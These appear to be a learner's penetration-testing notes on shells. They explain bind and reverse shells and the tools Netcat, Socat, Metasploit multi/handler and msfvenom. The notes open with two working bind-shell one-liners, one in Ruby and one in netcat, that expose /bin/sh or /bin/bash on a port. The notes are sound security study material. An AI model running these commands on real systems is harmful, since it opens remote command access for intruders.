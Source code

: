 #### Ruby shell
```ruby
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

#### Netcat Traditional shell
```bash
nc -lvp 51337 -e /bin/bash
```

More bind shell examples can be found on sites like [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/bind-shell-cheat-sheet) and [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/).

### Shell

> A shell is what we use when interfacing with a Command Line Environment (CLI). The common bash or sh programs in Linux are examples of shells, as are cmd.exe and Powershell on Windows

A server can be forces to send us command access to the server (Rever Shell), or to open a port on the server which we can connect through and start executing further commands (Bind Shell). 


#### <mark style="background: #FFB8EBA6;">Tools</mark>
There are several tools that will be used when trying to receive reverse shells or send bind shells. We need malicious shell code, as well as a way of interfacing with the resulting shell.
##### <mark style="background: #FF5582A6;">Netcat</mark>
Often named the "Swiss Army Knife" of networking, and is used for all kinds of network interactions(banner grabbing, reverse shells, connect to remote ports, etc). But the shells in Netcat are not stable and easy to lose by default. So techniques to improve the shells must be taken. 

##### <mark style="background: #FFB86CA6;">Socat</mark>
A stable shell that can do all the same things as Netcat and more. Out of the box, the shell in Socat is more stable, but has an more advanced syntax and does not come pre-installed on many distributions by default. 

##### <mark style="background: #FFF3A3A6;">Metasploit: Multi/handler</mark>
The `exploit/multi/handler` module is used to receive reverse shells, and since its part of the Metasploit Framework it comes with a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a _meterpreter_ shell, and is the easiest way to handle _staged_ payloads

##### <mark style="background: #BBFABBA6;">Msfvenom</mark>
Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Msfvenom can generate payloads other than reverse and bind shells, and its an incredibly powerful tool. 



### Netcat

Netcat is the most basic tool in a pentester's toolkit when it comes to any kind of networking. With it we can do a wide variety of interesting things, but let's focus for now on shells.
